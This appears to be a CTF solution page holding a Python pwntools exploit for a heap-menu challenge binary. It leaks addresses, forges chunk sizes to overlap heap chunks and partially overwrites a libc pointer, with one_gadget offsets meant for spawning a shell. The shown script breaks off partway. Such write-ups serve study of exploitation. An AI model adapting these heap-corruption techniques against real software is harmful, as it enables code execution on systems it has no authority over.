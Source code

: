![heap_list](./1.jpg)

### 17.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 1
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def Alloc(p,size):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Address 0x')
    address = int(p.recvline().strip('\n'),16)
    return address

def Delete(p,index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def Fill(p,index,content):
    p.recvuntil('>> ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Content: ')
    p.send(content)

def exp(p):
    p.recvuntil('Mmap: 0x')
    map_addr = int(p.recvline().strip('\n'),16)
    log.success('map addr => ' + hex(map_addr))
    code_base = Alloc(p,0x88) - 0x202068 #0
    chunk_arr = code_base + 0x202060
    log.success('program loading base => ' + hex(code_base))
    #leak libc
    Alloc(p,0x68)#1
    Alloc(p,0xf8)#2
    Alloc(p,0x68)#3


    Delete(p,0)
    Fill(p,1,'a'*0x60+p64(0x100))

    Delete(p,2)
    Delete(p,1)

    Alloc(p,0x88)#0


    Delete(p,0)
    #overwrite the size to 0x70
    Alloc(p,0x58)#0
    Alloc(p,0x98)#1
    Fill(p,1,'a'*0x20+p64(0x90)+p64(0x71)+'\xdd\x25\n')
    Alloc(p,0x60)#2
```